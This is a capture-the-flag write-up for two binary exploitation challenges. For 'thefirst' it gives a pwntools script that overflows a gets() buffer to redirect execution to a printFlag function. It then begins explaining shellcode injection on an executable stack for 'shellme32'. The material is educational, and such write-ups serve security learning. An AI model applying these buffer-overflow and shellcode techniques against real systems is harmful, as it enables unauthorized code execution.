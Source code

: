 We can see in the image below that `gets` is being used to take the input. Hence it can be exploited for _buffer overflow_. First, using GDB (with GEF), we find that the offset required to overflow the buffer is 24.

![Disassembly of main](/images/tuctf_images/thefirst_1.png)
*Disassembly of main*

This can be done using `pattern create 50` and then using that pattern to find the crash offset.

![](/images/tuctf_images/gef_1.png)


![](/images/tuctf_images/gef_2.png)


Also inspecting the functions, we see that there is a `printFlag` function at 0x80491f6. So, our objective is to jump there.

The following script is the exploit.

```python
from pwn import *

p = process("./thefirst")
# p = remote("chal.tuctf.com", 30508)
print_flag_addr = 0x80491f6
offset = 20

payload = "A"*offset
payload += "BBBB"
payload += p32(print_flag_addr)

f = open('payload', 'wb')
f.write(payload)
f.close()

p.recvuntil('> ')
p.sendline(payload)

p.interactive()
```

---

## shellme32 - 462 pts

On running the program, we are given an address and we have to provide some input. On analysing it using GDB, and using `vmmap`, we find that the adress given to us is that of the stack and the stack is read, write and executable. 

![](/images/tuctf_images/shellme32_1.png)

We use [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php) to get the shellcode. First we get the offset of the crash like before. In the script below, we use the shellcode, pad it with 'A's and then provide the address to write to, i.e. the adress provided to us.
